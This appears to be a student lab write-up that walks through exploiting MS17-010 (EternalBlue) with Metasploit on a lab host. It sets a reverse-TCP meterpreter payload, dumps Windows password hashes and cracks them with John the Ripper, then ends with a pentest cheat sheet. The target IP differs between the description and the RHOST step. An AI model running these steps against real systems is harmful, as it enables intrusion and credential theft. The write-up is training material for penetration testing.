 # Description

Through our vulnerability scans we learned the host at 10.19.99.10 has the vulnerability known as Microsoft Windows SMB Server Multiple Vulnerabilities.  It is also known as MS17-010 and has CVEs 2017-0143, 144, 145, 146, 147 & 148.  This is a major vulnerability. The goal of this lab will be to harvest the credentials present on the 10.19.99.10 host.  We will do this by exploiting the MS17-010 vulnerability using a tool called Metasploit, extract the hashed credentials from the windows SAM file, and decrypt them.

### Next we will see if Metasploit has an exploit for the MS17-010 vulnerability we found on our target host.  Enter the following command:
```zsh
search MS17-010
```
<img src="https://i.imgur.com/aFmS5Ht.png"/>


### Using the first listed exploit, issue the `use` command with the name of the desired exploit.  
```zsh
use exploit/windows/smb/ms17_010_eternalblue
```

### To discover what payloads are available with this exploit, use the `show` command.
```zsh
show payloads
```

### Select payload that will launch a reverse_tcp meterpreter shell.
```zsh
set payload windows/x64/meterpreter/reverse_tcp
```

### To discover what options are available with this payload, use the `show` command.
```zsh
show options
```
### The RHOST value must be set with a specific target IP.  
```zsh
set RHOST 10.19.99.110
```

<img src="https://i.imgur.com/4H3m874.png"/>


### To launch the attack, issue the `exploit` command:
```zsh
exploit
```

### To dump the user credentials on this system, issue the `hashdump` command in the meterpreter prompt.
```zsh
hashdump
```

### Take the results of the hashdump and save them to a .txt file. Now attempt to crack the passwords in the target file with John the Ripper.
```zsh
john hashes.txt --format=nt
```

<img src="https://i.imgur.com/OotFGJV.png"/>

### Write a short checklist of the steps you used during this lab to retrieve and crack passwords.  Write it as a cheat sheet you could use on a future pentest.
- Collect vulnerability to exploit
- Start up Metasploit
- Update Metasploit with the command '`msfupdate`
- Select exploit and search for exploit with the command `search <exploit>`
- From the list of exploits available for the vulnerability, select the desired exploit with command `use <eploit name>`
- With exploit select, to see a list of payloads available, enter the command `show payloads`
- To select a payload, enter the command 'set payload `<payload name>`
- Payloads may have available options, which can be displayed with the command `show options`
- To set the target host for the exploit, use the command 'set RHOST `<target IP>`
- Once ready to execute, use the command `exploit`





